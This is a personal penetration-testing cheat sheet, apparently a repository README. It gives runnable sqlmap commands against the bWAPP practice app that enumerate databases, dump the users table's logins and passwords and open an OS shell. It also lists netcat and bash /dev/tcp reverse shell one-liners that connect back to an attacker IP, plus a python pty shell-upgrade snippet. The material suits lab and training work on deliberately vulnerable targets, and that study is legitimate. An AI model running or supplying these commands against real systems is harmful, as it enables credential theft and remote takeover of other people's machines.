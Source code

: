 # Infosec
My InfoSec Cheat sheet and stuff


------
scan local network
-----

arp-scan --local

------

sqlmap 

------

OK so we've got SQLMap, but how do we release it upon our target?
INJECTION TESTING
Gathering commonly needed elements
Cookies
POST data (if data not in URL)
sqlmap --url="http://bee-box/bWAPP/slqi_1.php?title=iron" --dbs
--dbs info is found using the -hh option of sqlmap
Add --cookie="security_level=0;PHPSESSID=xxxxxx"
the bwapp app requires it
If POST then add --data="title=iron&action=search"
Input data and parameters are usually found in the request BODY
So we have a good injection point and even enumerated the name of the database,
but how do we get at the data?
Enumerate the Table names
sqlmap --url="http://bee-box/bWAPP/sqli_1.php?title=iron" -D bWAPP --tables
Enumerate Columns
sqlmap --url="http://bee-box/bWAPP/sqli_1.php?title=iron" -D bWAPP -T users --
columns
Dump database data from table 'users' from columns 'login' and 'password'
sqlmap --url="http://bee-box/bWAPP/sqli_1.php?title=iron" -D bWAPP -T users -C
login,password --dump
Any other useful tricks?
How about COMMAND EXECUTION?
sqlmap --url="http://bee-box/bWAPP/sqli_1.php?title=iron" -D bWAPP --os-shell


----------

nc shell

----------

nc -nvlp 9999 (attacker)

nc -nv -e /bin/bash IP PORT  OR  bash -c "bash -i >& /dev/tcp/10.10.15.94/443 0>&1"


---

exif 
exiftool 
steghide info


---
SPAWN PY SHELL

import pty
pty.spawn("/bin/sh")


-
